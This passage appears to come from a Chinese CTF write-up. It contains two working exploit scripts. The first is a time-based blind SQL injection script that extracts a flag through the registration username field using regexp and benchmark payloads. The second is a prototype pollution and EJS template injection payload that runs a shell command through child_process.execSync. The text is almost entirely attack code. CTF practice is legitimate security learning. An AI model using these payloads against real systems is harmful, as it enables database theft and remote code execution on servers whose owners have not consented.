 ```python
        'password': '123',
    })
    r = s.get(url + 'user')
    return r.text


# 'Username: /**/'
# table:ffflllaagggg
# column: fflllLaaaAgg
#         ffllllaaaaG

def flag(i):
    email = generate_random_str(25) + '@' + str(generate_random_str(5)) + '.com'
    username = generate_random_str(30) + "aml'^(if(((select/**/group_concat(ffllllaaaagg)/**/from/**/ffflllaagggg)/**/regexp/**/'^%s'),benchmark(10000000,sha('1')),0))^'1" % (str(i)),
    data = {
        'username': username,
        'email': email,
        'password': '123',
    }
    s.post(url + 'register', data=data, allow_redirects=False)
    s.post(url + 'login', data={
        'email': email,
        'password': '123',
    })
    r = s.get(url + 'user')
    return r.text


res = '0rm_i5_th3_s0lu'

for i in range(1, 50):
    print(i)
    for j in (string.digits + string.ascii_lowercase + '_'):
        t = time.time()
        r = flag(re.escape(res + j))
        if time.time() - t > 2:
            res += j
            print(res)
            break

```

### 漫无止境的星期日

* ez prototype trick with ejs
```python
url = 'http://macguffin.0727.site:5000/'

s = requests.session()

s.post(url, json={"__proto__": {"crying": True}, "name": "byc", "discription": "byc"})
s.post(url + 'wish', json={"wishes": "<%- global.process.mainModule.require('child_process').execSync('cat /flag') %>"})
r = s.get(url + 'show')
print(r.text)
```
